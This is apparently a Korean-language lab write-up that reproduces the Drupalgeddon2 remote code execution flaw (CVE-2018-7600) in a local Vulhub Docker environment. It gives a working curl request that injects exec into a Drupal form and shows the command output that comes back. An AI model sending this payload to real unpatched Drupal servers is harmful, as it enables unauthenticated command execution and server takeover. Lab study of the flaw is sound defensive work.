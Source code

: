 # CVE-2018-7600 - Drupalgeddon2 Remote Code Execution

## 1. 개요

- **CVE 번호:** CVE-2018-7600
- **취약점 이름:** Drupalgeddon2
- **설명:**
Drupal의 폼 렌더링 시스템에서 발생하는 취약점으로, 인증되지 않은 공격자가 원격에서 임의의 명령어를 실행할 수 있는 RCE(Remote Code Execution) 취약점입니다. Drupal 7.x 및 8.x의 특정 버전에서 발견되었으며, 매우 치명적인 영향도를 갖습니다.

---

## 2. 실습 환경 구성

### 2.1 실습 환경 정보

- **가상 환경:** VirtualBox + Ubuntu 22.04
- **Docker 버전:** 26.1.3
- **Docker Compose:** 1.29.2

### 2.2 취약 환경 구성 절차

```
# Vulhub 저장소 Fork 및 Clone
cd ~
git clone https://github.com/Parkjoonhyeong/vulhub.git
cd vulhub/drupal/CVE-2018-7600

# docker-compose.yml 확인 및 수정 (MySQL 추가)
nano docker-compose.yml
```

`docker-compose.yml` 예시:

![1](https://github.com/user-attachments/assets/5cd2472d-36a2-4731-ab0d-8e65461a3da3)


```
# 환경 실행
sudo docker-compose up -d
```

![2](https://github.com/user-attachments/assets/75b9bb73-315a-4818-a759-6ffd37988f1a)



### 2.3 컨테이너 상태 확인

```
docker ps
```

정상 상태 예시:

![3](https://github.com/user-attachments/assets/c77545a4-0aae-4885-8098-050a0e0b9300)



---

## 3. Drupal 설치

1. 브라우저 접속: `http://localhost:8080`
2. Drupal 설치 마법사 단계:
    - Language: English
    - Profile: Standard
    - Database:
        - **Database name:** drupal
        - **Username:** root
        - **Password:** root
        - **Host:** db
        - **Port:** 3306
    - 사이트 정보:
        - Site name: PoC Test Site
        - Admin ID/PW: root / root1234

설치 완료 후 관리자 페이지 진입 가능 상태 확인.

![4](https://github.com/user-attachments/assets/df26d235-b86c-4b3f-9024-d44159b7e299)



---

## 4. PoC 실행

### 4.1 공격 요청 (curl 사용)

```
curl -s -X POST "http://localhost:8080/user/register?element_parents=account/mail/%23value&ajax_form=1&_wrapper_format=drupal_ajax" \
-H "Content-Type: application/x-www-form-urlencoded" \
--data "form_id=user_register_form&_drupal_ajax=1&mail[#post_render][]=exec&mail[#type]=markup&mail[#markup]=id"
```

**이 요청은 Drupal의 `/user/register` 경로에 POST 요청을 보내며, 다음과 같은 방식으로 취약점을 트리거합니다:**

- **`ajax_form=1&_wrapper_format=drupal_ajax`** : Drupal의 Ajax 처리를 유도
- **`element_parents=account/mail/%23value`** : 폼 필드 경로를 지정하여 조작 위치 지정
- **`mail[#post_render][]=exec`** : **`post_render`** 함수로 PHP의 **`exec()`**를 지정
- **`mail[#markup]=id`** : 실행할 명령어로 리눅스의 **`id`** 명령 전달

즉, 폼 렌더링 과정에서 Drupal이 **`exec('id')`**를 실행하도록 만들어 **임의의 명령어 실행**을 유도합니다.

![5](https://github.com/user-attachments/assets/8a09157e-ca2e-45aa-8cc5-2f252424de17)


### 4.2 결과

```
[{"command":"insert","method":"replaceWith","selector":null,"data":"uid=33(www-data) gid=33(www-data) groups=33(www-data)..."}]
```

응답 JSON 데이터에서 **`data`** 항목에 명령어 실행 결과(**`id`** 출력 결과)가 포함되어 있으며,
이는 Drupal 웹 서버 컨테이너의 리눅스 사용자 정보입니다.

- **`uid=33(www-data)`** : 현재 실행 중인 웹 프로세스의 UID
- **`gid=33(www-data)`** : 그룹 ID 정보

**이는 서버 측 명령어가 실제로 실행되었고, 그 결과가 HTTP 응답에 포함되었음을 보여줍니다.**

> 응답 본문 내에 uid=33(www-data) 등의 리눅스 명령어 실행 결과가 포함되어 있음
> 

## 5. 결론

CVE-2018-7600, 일명 Drupalgeddon2로 불리는 이 취약점은 Drupal의 Ajax 기반 폼 렌더링 처리 과정에서 발생하는 치명적인 RCE(Remote Code Execution) 보안 취약점입니다. 이 취약점은 인증되지 않은 사용자가 단순한 폼 제출만으로 서버 내부의 명령어를 실행할 수 있게 하며, 공격자는 시스템 제어권 획득, 백도어 설치, 추가 공격 경로 확보 등 다양한 악용이 가능합니다.

본 실습에서는 Vulhub 프로젝트를 활용하여 Drupal 8.5.0 기반의 취약 환경을 Docker로 구축하였고, 해당 환경에서 취약한 경로(`/user/register`)로 조작된 Ajax 요청을 전송하여 명령어(`id`) 실행 결과를 확인하였습니다. 이 과정을 통해 다음과 같은 사실을 입증하였습니다:

- Drupal 설치 직후 기본 설정 상태에서도 본 취약점이 악용 가능함을 확인
- `curl`을 통해 간단한 PoC 공격 요청을 구성할 수 있으며,
- 응답 결과에서 실제 리눅스 명령어 실행 결과(`uid=33(www-data)` 등)를 확인하여 RCE 성공을 검증함

이번 실습을 통해 복잡한 리버스 엔지니어링 없이도 웹 취약점만으로 서버에 직접 명령어를 실행할 수 있는 보안 위협의 현실성과, 컨테이너 기반 실습 환경의 재현 가능성 및 교육적 가치를 체감할 수 있었습니다.
